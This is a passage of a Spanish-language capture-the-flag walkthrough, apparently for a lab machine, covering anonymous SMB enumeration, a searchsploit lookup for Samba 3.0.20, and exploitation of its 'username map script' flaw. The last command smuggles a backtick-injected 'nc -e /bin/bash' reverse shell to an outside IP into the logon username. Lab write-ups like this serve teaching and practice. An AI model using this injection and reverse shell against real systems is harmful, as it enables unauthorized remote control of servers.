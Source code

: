 ```bash
  ❯ smbclient -L //10.10.10.3/ -N --option='client min protocol=NT1'
  Anonymous login successful
  
          Sharename       Type      Comment
          ---------       ----      -------
          print$          Disk      Printer Drivers
          tmp             Disk      oh noes!
          opt             Disk
          IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
          ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
  Reconnecting with SMB1 for workgroup listing.
  Anonymous login successful
  
          Server               Comment
          ---------            -------
  
          Workgroup            Master
          ---------            -------
          WORKGROUP            LAME
```

Vamos a verificar si la versión de `vsftpd` es vulnerable por medio de la utilidad `searchsploit`.

```bash
  ❯ searchsploit samba 3.0.20
  --------------------------------------------------------------------------------------------------  ------- ---------------------------------
   Exploit Title                                                                                             |  Path
  --------------------------------------------------------------------------------------------------  ------- ---------------------------------
  Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                     | multiple/remote/10095.txt
  Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                           | unix/remote/16320.rb
  Samba < 3.0.20 - Remote Heap Overflow                                                                      | linux/remote/7701.txt
  Samba < 3.0.20 - Remote Heap Overflow                                                                      | linux/remote/7701.txt
  Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                              | linux_x86/dos/36741.py
  -------------------------------------------------------------------------------------------------  ------- -----------------------------
```

Luego de revisar el exploit `unix/remote/16320.rb`, detectamos una vía potencial que permite ejecución remota de comandos `RCE` _remote command execution_ al momento de acceder, en caso de ser exitoso generamos un acceso a la máquina.

```bash
  ❯ smbclient //10.10.10.3/tmp -N --option='client min protocol=NT1' -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.6 4564`"'
  nohup: se descarta la entrada y se redirige la salida de error a la salida estándar
  Anonymous login successful
  Password:
  session setup failed: NT_STATUS_IO_TIMEOUT
```
